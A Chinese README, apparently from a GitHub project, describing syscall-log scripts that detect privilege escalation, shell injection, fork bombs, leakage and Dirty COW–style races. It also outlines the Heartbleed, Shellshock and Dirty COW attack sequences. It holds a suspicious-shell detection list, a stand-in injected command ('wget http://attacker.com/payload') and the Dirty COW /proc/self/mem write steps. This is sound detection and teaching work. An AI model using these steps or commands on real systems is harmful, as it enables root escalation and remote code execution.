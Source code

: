 # 分析脚本 ( ***To Be Expanded*** )
Scripts 下是六个 python 脚本以及对应的示例日志文件 , 分别用于检测不同的漏洞

### 0.1 HOW TO RUN
只需在 Analyzer/Scripts/XXXX 目录下用 python3 执行对应 python 脚本即可

### 0.2 OUTPUT FORMAT
```
============================================================
[!!!] High Risk Alert: Potential [Race Condition (Dirty COW-like)] vulnerability detected!
      - Process ID: 13612
      - Alert Line: 26
      - Evidence: Detected 5 madvise calls and 5 writes to /proc/self/mem in 2 seconds, exceeding threshold of (5,5)
      - Full Log Entry: {"ts": 503.5, "event": "WRITE", "pid": 13612, "filename": "/proc/self/mem", "buf": "rootpl"}
============================================================
```
```
============================================================
[!!!] Medium Risk Alert: Potential [Memory Corruption (Weak Signal)] vulnerability detected!
      - Process ID: -1
      - Alert Line: 2
      - Evidence: Detected abnormally large page allocation via mmap: 2048 pages
      - Full Log Entry: {"ts": 302, "pid": -1, "evt": "MMAP_SUM", "meta": {"count": 5, "max_pages": 2048}}
============================================================
```

### 1. AccessControl
- 检测是否有提权操作 ( PRIVILEGE_ESCALATION_EVENTS = {"SETUID", "SETGID", "SETREUID", "SETRESUID"} ) 且尝试设置uid为0 (root)
- 检测是否可能访问无权访问的文件 ( 包含 ../ 路径 , 或是在黑名单中的敏感文件 )

### 2. CodeInjection
- 检测是否使用 EXEC syscall 执行了可疑的 shell ( SUSPICIOUS_COMMANDS = { "/bin/sh", "/bin/bash", "/bin/csh", "/usr/bin/sh", "/usr/bin/bash", "sh", "bash"} )

### 3. ForkBomb
- 检测在一个时间窗口中是否出现了大量 fork 系统调用

### 4. InformationLeakage
- 检测是否在一个时间窗口中先出现了接收/读取 size 很小的数据 , 然后发送/写入 size 很大的数据

### 5. MemoryCorruption
- 强特征检测: 检测是否有 mprotect 调用 , 并将一块内存区域的权限标记为可执行 
- 弱特征检测: 检测是否有异常大的内存映射 , 但这只是一个弱特征 , 表示可能存在大的内存分配 , 而非确切的攻击行为

### 6. RaceCondition
- 检测是否有高频、并发地调用 mmap , madvise , 和 write ( 针对 /proc/self/mem ) , 具体原理见下文

---

# 恶意代码示例
MaliciousCode 下是三个典型的高危漏洞 
### Heartbleed
- 这是一个边界检查缺失导致的信息泄露漏洞。攻击者可以向服务器发送一个特制的心跳请求，请求一块很大的内存（比如64KB），但实际只发送了很小的数据。有漏洞的服务器不会检查请求长度和实际数据长度是否匹配，直接从内存中复制并返回64KB数据，这其中就可能包含服务器的私钥、用户会话、密码等敏感信息。
- Heartbleed触发时的序列:

  1. 服务器进程通过 read()/recvfrom() 接收到攻击者发来的恶意心跳包。

  2. OpenSSL库在内存中处理这个包时，由于逻辑缺陷，会读取到不该读取的内存区域。

  3. 服务器最终通过 write()/sendto() 将这块包含敏感信息的内存区域发送回攻击者。

### Shellshock
- 这是一个命令注入漏洞。Bash在处理某些特殊构造的环境变量时，会错误地将环境变量值中的字符串作为命令来执行。当一个程序（如网页服务器的CGI脚本）接收用户输入并将其设置为环境变量，然后调用Bash时，攻击者就可以远程执行任意命令。<br><br>由于 bash 问题已被修复 ，可能需要旧版本的 docker 才能正确演示

- Shellshock触发时的序列:

    1. Apache进程通过 read() 接收到一个包含恶意HTTP头的请求。

    2. Apache fork() 并准备通过 execve() 运行CGI脚本。在调用 execve() 之前，它会将HTTP头（如User-Agent）设置为环境变量。

    3. execve() 成功执行，Bash进程启动。

    4. Bash在初始化、解析环境变量时，触发了漏洞。

    5. 关键点: Bash进程内部会再次调用 fork() 和 execve() 来执行攻击者注入的命令（例如 /bin/sh -c 'wget http://attacker.com/payload'）。

### Dirty COW
- 这是一个Linux内核的竞争条件漏洞，允许本地低权限用户提权至root。漏洞在于内核内存子系统处理写时复制（Copy-on-Write, COW）机制时存在缺陷。攻击者可以利用这个缺陷，向一个只读的内存映射（例如一个由root拥有的文件 /etc/passwd）写入数据。 <br><br> ***警告***：请务必在专门的、可丢弃的虚拟机或Docker容器中运行此代码。虽然此PoC是本地的，但它利用的是内核级漏洞，在不安全的系统上运行可能导致系统不稳定。
- Dirty COW触发时的序列:

    1. 攻击者进程使用 mmap() 将一个只读文件（如 /etc/passwd）映射到内存中。

    2. 进程创建两个线程。

    3. 线程A: 在一个循环中，反复调用 madvise(addr, len, MADV_DONTNEED)。这个调用告诉内核“我不再需要这块内存了”，内核会丢弃它，但保留映射关系。下次访问时会重新从文件加载（触发COW）。

    4. 线程B: 同时，在另一个循环中，通过 open("/proc/self/mem", O_RDWR) 并 lseek() 到目标内存地址，然后 write() 尝试向这块只读映射写入数据。